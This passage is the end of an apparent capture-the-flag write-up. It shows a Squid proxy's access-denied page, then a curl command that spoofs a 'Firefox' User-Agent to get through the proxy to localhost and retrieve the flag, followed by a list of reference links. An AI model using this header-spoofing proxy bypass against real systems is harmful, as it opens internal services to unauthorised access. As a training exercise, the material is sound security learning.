<h2>The requested URL could not be retrieved</h2>
</div>
<hr>

<div id="content">
<p>The following error was encountered while trying to retrieve the URL: <a href="http://127.0.0.1/">http://127.0.0.1/</a></p> 📌

<blockquote id="error">
<p><b>Access Denied.</b></p>
</blockquote>

<p>Access control configuration prevents your request from being allowed at this time. Please contact your service provider if you feel this is incorrect.</p> 📌

<p>Your cache administrator is <a href="mailto:webmaster?subject=CacheErrorInfo%20-%20ERR_ACCESS_DENIED&amp;body=CacheHost%3A%20victim-1%0D%0AErrPage%3A%20ERR_ACCESS_DENIED%0D%0AErr%3A%20%5Bnone%5D%0D%0ATimeStamp%3A%20Sat,%2030%20Nov%202024%2017%3A38%3A12%20GMT%0D%0A%0D%0AClientIP%3A%20192.122.81.2%0D%0A%0D%0AHTTP%20Request%3A%0D%0AGET%20%2F%20HTTP%2F1.1%0AUser-Agent%3A%20curl%2F7.64.0%0D%0AAccept%3A%20*%2F*%0D%0AProxy-Connection%3A%20Keep-Alive%0D%0AHost%3A%20127.0.0.1%0D%0A%0D%0A%0D%0A">webmaster</a>.</p>
<br>
</div>

<hr>
<div id="footer">
<p>Generated Sat, 30 Nov 2024 17:38:12 GMT by victim-1 (squid/3.5.12)</p>
<!-- ERR_ACCESS_DENIED -->
</div>
</body></html>
```
❌

`curl -H 'User-Agent: Firefox' -x 192.122.81.3:3128 127.0.0.1:80`:
```
Congragulations you've successfully completed the challenge, here is your flag: 2F51D6A3271E1F892044DE948CFFC497
```

---

## References and Resources

- [ASCII Table - Reference to ASCII Table of Windows-1252](https://www.ascii-code.com/)
- [UTF-8 encoding table and Unicode characters](https://www.utf8-chartable.de/)
- [Character Set & Unicode Tools and Conversions](https://www.charset.org/)
- [PHP Manual](https://www.php.net/manual/en/)
- [Regular Expressions 101](https://regex101.com/)
- [URL Decoder](https://www.urldecoder.org/)
- [OWASP Cheat Sheet Series - XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
- [SecLists](https://github.com/danielmiessler/SecLists)

---
---
